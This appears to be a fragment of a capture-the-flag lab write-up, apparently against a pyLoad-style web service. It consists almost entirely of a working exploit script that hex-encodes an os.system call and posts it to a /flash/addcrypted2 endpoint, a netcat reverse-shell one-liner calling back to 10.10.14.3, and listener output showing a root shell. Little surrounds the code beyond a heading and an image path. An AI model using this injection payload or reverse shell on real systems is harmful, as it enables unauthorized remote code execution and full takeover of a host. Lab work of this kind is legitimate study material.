 Making a payload generator
```python
import sys
import requests

payload = f'pyimport os;os.system("{sys.argv[1]}")'
#print(payload)

enc_payload = []
for char in payload:
    enc_payload.append(hex(ord(char)))

enc_payload="".join(enc_payload).replace("0x","%")
#print(enc_payload)

enc_payload='package=xxx&crypted=AAAA&jk='+enc_payload+';f=function%20f2(){};&passwords=aaaa'
res = requests.post(
    url='http://127.0.0.1:8000/flash/addcrypted2',
    headers={"Host": "127.0.0.1:8000", "Content-Type": "application/x-www-form-urlencoded"},
    data=enc_payload,
    proxies={"http": "socks5://127.0.0.1:1080"}
)
print(res.status_code)
```
```bash
python3 payloader.py 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 4000 >/tmp/f'
```
```bash
rlwrap nc -lvnp 4000
listening on [any] 4000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.214] 46632
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
